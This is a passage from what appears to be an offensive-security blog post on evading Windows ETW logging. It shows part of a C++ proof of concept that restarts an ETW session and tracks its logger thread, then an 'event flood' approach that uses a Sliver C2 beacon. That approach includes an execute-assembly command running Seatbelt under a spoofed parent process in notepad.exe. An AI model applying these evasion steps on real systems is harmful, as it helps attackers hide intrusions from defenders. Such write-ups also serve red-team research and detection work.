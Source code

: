 ```
        HANDLE threadId = (HANDLE)properties->LoggerThreadId;
        std::wcout << L"\t[-] Logger Thread ID: " << threadId << std::endl;
        currentThreadId = threadId;
    }
    else if (status == ERROR_WMI_INSTANCE_NOT_FOUND) {
        std::wcout << L"ETW session not found, restarting..." << std::endl;
        StopETWSession();
        StartETWSession();
        PrintSessionInfo();
    }
    else {
        std::wcerr << L"Failed to get session information: " << status << std::endl;
    }

    free(properties);
}

int main() {
    StopETWSession();
    StartETWSession();
    PrintSessionInfo();
    while (true) {
        HANDLE previousThreadId = currentThreadId;
        PrintSessionInfo();

        Sleep(1000);
    }
    return 0;
}
```

**POC**

<img src="{{ site.url }}{{ site.baseurl }}/images/poc.gif" alt="">

###  Event Flood

The next approach involves flooding the events for the `.NET CLR` provider, as explained in this [post](https://shellz.club/posts/a-novel-method-for-bypass-ETW/){:target="_blank"}. To test this, we will use the `execute-assembly` command from Sliver C2.

The process of generating a stager profile and obfuscating it will not be explained here, as it falls outside the scope of this post, it's basically the encrypted stager profile shown in Sliver's [documentation](https://sliver.sh/docs?name=Stagers){:target="_blank"}.

<img src="{{ site.url }}{{ site.baseurl }}/images/2024-06-30_09_15_06.png" alt="">

Once we have the beacon, we will run `execute-assembly` as follows:

```
execute-assembly --ppid 4632 --process notepad.exe --loot --name seatbelt /opt/tools/Seatbelt.exe -group=All
```
